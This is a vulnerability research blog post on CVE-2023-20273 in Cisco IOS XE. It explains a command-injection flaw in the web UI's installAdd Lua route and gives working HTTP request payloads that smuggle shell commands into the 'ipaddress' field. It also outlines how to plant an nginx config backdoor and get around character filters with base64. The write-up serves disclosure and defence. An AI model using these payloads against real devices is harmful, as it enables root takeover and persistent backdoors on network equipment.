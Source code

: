 +++
title = "CVE-2023-20273: IOS XE root priv escalation"
url = "2023/10/cisco-root-privesc"
description = "CVE-2023-20273: IOS XE root privilege escalation"
tags = [
    "vulnerability",
    "research",
    "LeakIX",
    "cisco",
]
date = "2023-10-31 23:20:00"
categories = [
    "vulnerability",
    "research",
    "LeakIX",
    "cisco"
]
image = "cover.png"
author = "BloodyShell"
author_link = "https://twitter.com/leak_ix"
+++

On the 28th of October the exploit for `CVE-2023-20198` was released by [SECUINFRA](https://twitter.com/SI_FalconTeam/status/1718346358950711807) after being captured on one of their honeypots.

While it enables full admin control of IOS, the question still remained about the implantation of the backdoor.


<!--more-->

**Update 2023/11/01:** [Joel Land](https://twitter.com/joel_land/status/1719708750741639539) shared with us on Twitter that a different payload
is necessary on his Catalyst 8000v running version 17.4.1a. We've added a payload for v17.

## Taking step back

Contrary to IOS, IOS XE is based on a Linux Kernel.
In the following picture `CVE-2023-20198` gets you the `IOSd` layer.

![Picture](/iosxe/iosxe.png)

We're however looking for the NGINX config which is at the `Host OS` layer.

### Looking for leads

Our first lead comes from the [Talos Intelligence blog post](https://blog.talosintelligence.com/active-exploitation-of-cisco-ios-xe-software/) mentioning the following log entry:

```
%WEBUI-6-INSTALL_OPERATION_INFO: User: username, Install Operation: ADD filename 
```

Our second lead comes from the diff made by [Horizon3](https://www.horizon3.ai/cisco-ios-xe-cve-2023-20198-theory-crafting/):
![Picture](/iosxe/diff.webp)
Image credit: Horizon3

### Bunch of Lua

After investigation for Lua endpoints in the Webui we found a candidate matching both leads:

In `/var/scripts/softwareMgmt.lua` we find the `installAdd` route:

```lua
if method == "POST" then
    local inp = {}
    local req_body = ngx.var.request_body
    if not utils.isNilOrEmptyString(req_body) then
        inp = cjson.decode(req_body)
    end
    local installParams = {}
    if not getInstallInProgress() then
        if lastTag == "installAdd" then
            validateSmuRequest(inp)
            local url, destinationFile = generateUrlAndDestination(inp)
            writeInstallOperationType(inp.operation_type)
            installParams.operation = "install_add"
            installParams.filename = destinationFile
            writeSmuInstallParams(installParams)
            local installMethod = inp.installMethod
            -- Install involved file download, which might take long, so it will run in the background.
            local command = 'CMD_SETSID ' .. smu_install_script .. ' --operation install_add --operation_type ' .. inp.operation_type .. ' --install_method ' .. installMethod .. ' --remote_path "' .. url .. '" --file_path "' .. destinationFile .. '" &'
            utils.runOSCommand(command)
            ngx.exit(ngx.HTTP_OK)
        endif
    endif
endif
```

As highlighted by Horizon3, the ipv6 validation method has been updated. It turns out we can pass an `ipaddress` as parameter to this endpoint which will end-up in the `url` variable.

Due to a bug in the validating conditions, the only requirement for our IPv6 is to contain 3 fields delimited by `:`. 

Some other validation steps in `validateSmuRequest` and `formValidate` forbids us from using characters like `"`, `'`, ect ... in our payload. 

### Command substitution to the rescue

Using command substitution allows us to bypass any form of validation.

Our final payload after creating a user and authing with `CVE-2023-20198` looks like:

```http request
POST /webui/rest/softwareMgmt/installAdd HTTP/1.1
Host: 10.0.0.1
Content-Length: 42
Cookie: Auth=<cookie from valid auth>
X-Csrf-Token: <token from /webui/rest/getDeviceCapability>

{"installMethod":"tftp","ipaddress":"1000:1000:1000: $(echo hello world > /var/www/hello.html)","operation_type":"SMU","filePath":"test","fileSystem":"flash:"}
```

or for v17

```http request
POST /webui/rest/softwareMgmt/installAdd HTTP/1.1
Host: 10.0.0.1
Content-Length: 42
Cookie: Auth=<cookie from valid auth>
X-Csrf-Token: <token from /webui/rest/getDeviceCapability>

{"mode":"tftp","ipaddress":"1000:1000:1000: $(echo hello world > /var/www/hello.html)","operation_type":"SMU","filePath":"test","fileSystem":"flash:"}
```

### Nginx config

Knowing all of this, one can therefore drop a file in `/usr/binos/conf/nginx-conf/cisco_service.conf` and restart the
webserver to apply the configuration.

`openssl base64 -d` can be used to bypass any limitation on character limitation.
